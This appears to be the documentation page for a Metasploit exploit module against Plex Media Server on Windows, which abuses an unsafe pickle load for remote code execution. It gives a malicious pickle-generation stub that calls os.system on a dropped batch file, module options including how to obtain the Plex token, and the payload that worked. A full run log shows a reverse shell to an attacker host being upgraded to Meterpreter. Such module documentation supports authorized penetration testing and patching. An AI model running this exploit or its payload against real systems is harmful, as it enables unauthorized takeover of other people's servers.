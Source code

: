 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex. Due to the restrictions of pickle RCE, we write our
payload to a file then simply execute it through the pickled `Dict`
file.

If an exploit fails, or is cancelled, `Dict` and `Dict.bat` are
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1` and `Dict-1.bat`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle
import os

class EvilPickle(object):
  def __init__(self):
    pass
  def __reduce__(self):
     return (os.system,('c:\\Users\\Public\\mememe\\Dict.bat',))

e = EvilPickle()
pickle.dumps(e)
"cposix\nsystem\np0\n(S'c:\\\\Users\\\\Public\\\\mememe\\\\Dict.bat'\np1\ntp2\nRp3\n."
```

However, this was run on Linux and thus `posix` can be seen in the output.  When run
on Windows, the output will be slightly different and use `nt` isntead of `posix`.
The Windows version of the code is required.

### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Either due to the pickling, or the HTTP server interaction, or running on Windows, all attempts to either call multi-function such as:
```eval(base64.b64decode())```
or execute OS commands with more than one parameter
```os.system('net user...')```
or
```os.system('powershell.exe ...')```
failed.  With this in mind, the strategy of uploading a payload file, and calling it was the one that worked.


## Verification Steps

  1. Install the application
  2. Register/Connect it to your Plex Pass account
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.  To obtain this, simply use a browser
to log-in to the server, then check the requests for this header.

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `5` seemed to be OK, default is `10`.

### PAYLOAD

Payload is extremly picky, from testing only `cmd/windows/reverse_powershell` worked, however it was very reliable.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

  ```
  [*] Processing plex.rb for ERB directives.
  resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
  resource (plex.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (plex.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (plex.rb)> set PLEX_TOKEN jy4g8mz2cmHbAaPBsEG7
  PLEX_TOKEN => jy4g8mz2cmHbAaPBsEG7
  resource (plex.rb)> set verbose true
  verbose => true
  resource (plex.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Gathering Plex Config
  [*] Server Name: EXPLOITABLE -win10
  [+] Server OS: Windows (10.0 (Build 16299))
  [+] Server Version: 1.18.5.2309-f5213a238
  [*] Adding new photo library
  [+] Created Photo Library: 94
  [*] Adding pickled Dict to library
  [*] Adding payload to library root
  [*] Changing AppPath
  [*] Restarting Plex
  [*] Sleeping 10 seconds for server restart
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57277) at 2020-06-19 23:32:00 -0400
  [*] Cleanup Phase: Reverting changes from exploitation
  [*] Changing AppPath
  [*] Restarting Plex
  [!] Tried to delete C:\Users\Public\ULTTqY\Plex Media Server\Plug-in Support\Data\com.plexapp.system\Dict, unknown result
  [*] Deleting Photo Library
  [!] Tried to delete C:\Users\Public\ULTTqY\Dict.bat, unknown result
  
  Could Not Find C:\Windows\.exe
  
  C:\Windows>background
  
  Background session 1? [y/N]  y 
  ```

  ```
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -u 1
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
  
  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 2.2.2.2:4433 
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > 
  [*] Sending stage (176195 bytes) to 1.1.1.1
  [*] Meterpreter session 2 opened (2.2.2.2:4433 -> 1.1.1.1:57293) at 2020-06-19 23:33:43 -0400
  [*] Stopping exploit/multi/handler
  
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: WIN10PROLICENSE\windows
  meterpreter > sysinfo
  Computer        : WIN10PROLICENSE
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
